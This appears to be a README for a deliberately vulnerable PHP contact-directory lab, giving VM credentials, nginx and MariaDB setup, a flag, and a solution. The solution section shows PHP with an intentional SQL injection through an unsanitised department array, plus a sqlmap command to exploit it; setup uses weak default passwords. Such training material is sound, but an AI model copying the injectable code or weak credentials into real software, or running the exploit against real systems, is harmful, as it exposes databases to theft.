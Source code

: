 # PHP SQL injection 2 Attack (Contactbook)

Download VM:
* Credentials: ```user/user```, ```root/123456```
* SSH disabled
* Debian 11, 2 GB disk

# Agenda

In this lab, we will try to find out how well the new Corporate Employee Directory security has been implemented.


# Setup

*Requirements:*  **2 GB** of disk space for VM.

Put all files in **source** to folder **/var/www/html/**


```bash
sudo apt-get update --allow-releaseinfo-change
sudo apt-get install nginx mariadb-server php-fpm php-mysql sudo unzip

sudo chown www-data:www-data -R /var/www/html/
sudo chmod 755 -R /var/www/html/*
```

#### Manual database set up

```bash
sudo mysql -e "UPDATE mysql.user SET Password = PASSWORD('12345') WHERE User = 'root'"
sudo mysql -e "DELETE FROM mysql.user WHERE User='';"
sudo mysql -e "DELETE FROM mysql.user WHERE User='root' AND Host NOT IN ('localhost', '127.0.0.1', '::1');"
sudo mysql -e "DROP DATABASE IF EXISTS test;"
sudo mysql -e "DELETE FROM mysql.db WHERE Db='test' OR Db='test\\_%';"
sudo mysql -e "create database contactbook";
sudo mysql -e "CREATE USER 'admin'@'localhost' IDENTIFIED BY 'admin'";
sudo mysql -e "GRANT ALL PRIVILEGES ON contactbook . * TO 'admin'@'localhost'";
sudo mysql -e "FLUSH PRIVILEGES";

sudo mysql contactbook < /var/www/html/db.sql
sudo rm -f /var/www/html/db.sql

```



#### Set up a flag

```
sudo mysql -e "insert into contactbook.flag(\`id\`) values ('SQL_Injection_Contact');";
```


#### Nginx configure

Change **/etc/nginx/sites-enabled/default** (php-fpm version may be different):

```
server {
        listen 80 default_server;
        listen [::]:80 default_server;

        root /var/www/html;
        index index.php;
        server_name _;

        location / {
                try_files $uri $uri/ =404;
        }
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }

}
```

Reload nginx config
```
sudo service nginx restart
#sudo systemctl restart nginx
```


## How to check that everything works ?

1. Open the main page. You should see the working app. 


## Solution

There is SQL injection

```php

if (isset($_POST['search']) && strlen($_POST['search'])>3)
{
	$search=$mysqli->real_escape_string(trim($_POST['search']));
    $query = "SELECT * FROM employees where (`name` like '%".$search."%' or `surname` like '%".$search."%')";
	
	if(isset($_POST['department']))
	{
		
		if(count($_POST['department'])>0)
		{
			$where=" AND `department` in (";
			foreach($_POST['department'] as $dep)
			{
				$where.="'".$dep."',"; //--- injection here
			}
			$where=substr($where, 0, -1);
			$where.=")";
			$query.=$where;
		}
	}
}

```

Exploit it with SQLMAP:

```
sqlmap --url IP --data="search=William&department%5B%5D=Network&department%5B%5D=Telephony" 
```






